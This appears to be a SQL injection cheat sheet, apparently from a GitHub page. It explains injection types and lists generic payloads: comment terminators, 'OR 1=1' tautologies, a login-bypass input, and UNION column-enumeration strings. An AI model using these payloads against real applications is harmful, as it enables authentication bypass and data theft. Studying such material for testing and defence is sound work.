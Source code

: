 
## Types of SQL Injection

### In-Band SQLi
The attacker uses the same communication channel to launch the attack and gather results.

* **Error-Based SQLi:** The attacker relies on error messages returned by the database server to learn about the database structure.
* **UNION-Based SQLi:** The attacker uses the `UNION` SQL operator to combine the results of a malicious query with the results of a legitimate query, allowing them to exfiltrate data.

### Inferential SQLi (Blind SQLi)
The attacker sends data payloads, and the server's response (or lack thereof) indicates the truth or falsity of a condition.

* **Boolean-Based Blind SQLi:** The attacker sends SQL queries that result in a different application response depending on whether the query returns true or false.
* **Time-Based Blind SQLi:** The attacker sends SQL queries that instruct the database to wait for a specified amount of time before responding. The response time indicates to the attacker whether the query was true or false.

### Out-of-Band SQLi
The attacker uses a different communication channel (e.g., DNS or HTTP requests to an external server) to exfiltrate data. This is less common and depends on specific database features.

---

## Basic SQL Injection Syntax & Payloads

### Comments
Used to ignore the rest of the original query.
* `-- ` (Note the trailing space for some databases like MySQL, MSSQL)
* `#` (MySQL)
* `/* ... */` (C-style comments, works in most SQL databases)
* `;%00` (Null byte, can sometimes terminate queries)

**Example:**
`SELECT * FROM users WHERE username = 'admin' -- ' AND password = 'password';`

### Tautologies / Always True Conditions
Used to bypass authentication or retrieve all rows.
* `' OR 1=1 -- `
* `' OR 'a'='a`
* `1 OR 1=1` (for numeric input)

**Example (Login Bypass):**
Username: `admin' OR 1=1 -- `
Password: `anything`

### UNION-Based Payloads
Used to retrieve data from other tables. The number of columns in the `UNION SELECT` must match the number of columns in the original query.
1.  **Find Number of Columns:**
    * `' ORDER BY 1 -- `
    * `' ORDER BY 2 -- `
    * ... (increment until an error occurs)
    * `' UNION SELECT NULL -- `
    * `' UNION SELECT NULL, NULL -- `
    * ... (increment NULLs until no error)
